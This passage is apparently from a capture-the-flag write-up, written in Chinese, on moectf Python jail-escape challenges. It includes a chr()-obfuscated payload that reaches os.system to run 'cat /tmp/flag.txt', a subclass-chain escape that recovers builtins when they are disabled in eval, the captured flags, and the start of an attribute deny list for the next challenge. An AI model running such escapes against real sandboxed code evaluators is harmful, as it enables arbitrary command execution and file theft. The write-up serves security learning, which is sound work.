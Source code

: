 ```
getattr(getattr(getattr(getattr(globals(), chr(95)+chr(95)+chr(103)+chr(101)+chr(116)+chr(105)+chr(116)+chr(101)+chr(109)+chr(95)+chr(95))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)), chr(95)+chr(95)+chr(100)+chr(105)+chr(99)+chr(116)+chr(95)+chr(95), getattr(globals(), chr(95)+chr(95)+chr(103)+chr(101)+chr(116)+chr(105)+chr(116)+chr(101)+chr(109)+chr(95)+chr(95))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95))), chr(95)+chr(95)+chr(103)+chr(101)+chr(116)+chr(105)+chr(116)+chr(101)+chr(109)+chr(95)+chr(95))(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))(chr(111)+chr(115)), chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109))(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))
```

```
moectf{59042fef-1e84-9185-fcbc-50168d5e02ba}
```

## Pyjail 3

> flag 位置在 /tmp 下

```python
def chall():
    user_input = input("Give me your code: ")
        
    try:
        result = eval(user_input, {"__builtins__": None}, {})
        # Hint: When __builtins__ is None, you need to be more creative...
        print("Code executed successfully!")
        if result is not None:
            print(f"Return value: {result}")
    except Exception as e:
        print(f"Execution error: {type(e).__name__}: {e}")
```

即使 `__builtins__` 被禁用，仍然可以通过**对象继承链**或**现有类的属性**来重新获取内置函数。例如：

- 通过元类（如 `().__class__.__mro__`）找到基类（如 `object`）。
- 遍历子类（如 `__subclasses__()`）来寻找可用的类（如 `os._wrap_close`、`ModuleSpec` 等）。
- 通过这些类的 `__init__.__globals__` 或 `__builtins__` 属性重新获取内置函数。

```
([c for c in ().__class__.__mro__[-1].__subclasses__() if c.__name__=='ModuleSpec'][0].__init__.__globals__['__builtins__']['open']('/tmp/flag.txt').read())
```

```
moectf{6486e9b8-47b8-0b5e-dead-8e554dd2a1b6}
```

## Pyjail4

> flag 位置在 /tmp 下

```python
import ast
import base64

# 自定义 AST 节点访问器来限制可用的语法结构
class RestrictedNodeVisitor(ast.NodeVisitor):
    forbidden_attrs = {
        "__class__", "__dict__", "__bases__", "__mro__", "__subclasses__",
        "__globals__", "__code__", "__closure__", "__func__", "__self__",
        "__module__", "__import__", "__builtins__", "__base__", "__init__", "__getattribute__"
    }
    def visit_Attribute(self, node):
        # 禁止危险属性访问
        if isinstance(node.attr, str) and node.attr in self.forbidden_attrs:
```